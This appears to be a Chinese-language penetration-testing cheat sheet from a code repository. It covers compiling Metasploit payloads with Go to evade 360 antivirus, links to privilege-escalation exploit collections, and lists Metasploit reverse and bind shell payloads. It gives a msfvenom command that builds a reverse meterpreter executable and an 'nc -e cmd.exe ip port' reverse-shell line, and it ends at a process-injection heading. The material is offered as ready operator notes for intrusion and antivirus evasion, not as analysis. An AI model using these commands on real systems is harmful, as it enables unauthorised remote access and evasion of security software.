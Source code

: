 ```

## go+msf & py+msf bypass360
---
	msf编码生成后，用go build -ldflags="-H windowsgui -s -w"即可，详细参考以下link  
http://lu4n.com/metasploit-payload-bypass-av-note/
http://hacktech.cn/2017/04/20/msf-AntiVirus.html

# 提权
---
win提权辅助工具，原理主要通过systeminfo补丁信息比对漏洞库  
工具链接 https://github.com/GDSSecurity/Windows-Exploit-Suggester

linux提权辅助  
https://github.com/jondonas/linux-exploit-suggester-2

感谢前辈收集的提权exp，地址：  
[windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[linux-kernel-exploits Linux平台提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)

## msf
---
linux相关payload：

        linux/x86/meterpreter/reverse_tcp
        linux/x86/meterpreter/bind_tcp
        linux/x86/shell_bind_tcp
        linux/x86/shell_reverse_tcp
    	linux/x64/shell/bind_tcp
    	linux/x64/shell/reverse_tcp
    	linux/x64/shell_bind_tcp
    	linux/x64/shell_bind_tcp_random_port
    	linux/x64/shell_reverse_tcp

windows相关payload:

        windows/meterpreter/reverse_tcp
        windows/meterpreter/bind_tcp
    	windows/meterpreter/reverse_hop_http
    	windows/meterpreter/reverse_http
    	windows/meterpreter/reverse_http_proxy_pstore
    	windows/meterpreter/reverse_https
    	windows/meterpreter/reverse_https_proxy
        windows/shell_reverse_tcp
        windows/shell_bind_tcp
        windows/x64/meterpreter/reverse_tcp
        windows/x64/meterpreter/bind_tcp
        windows/x64/shell_reverse_tcp
        windows/x64/shell_bind_tcp

目标服务器为64位用x64监听，反弹meterpreter用含有meterpreter的模块，反弹普通的shell（例如nc），shell_reverse_tcp模块监听

例如msf:

	反弹shell  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 
	监听       windows/meterpreter/reverse_tcp
	
	反弹shell  nc -e cmd.exe ip port 
	监听       windows/shell_reverse_tcp

meterpreter下上传 upload file 下载 download file

### Msf进程注入(测试win10没成功,win2008 可以，360会拦)
```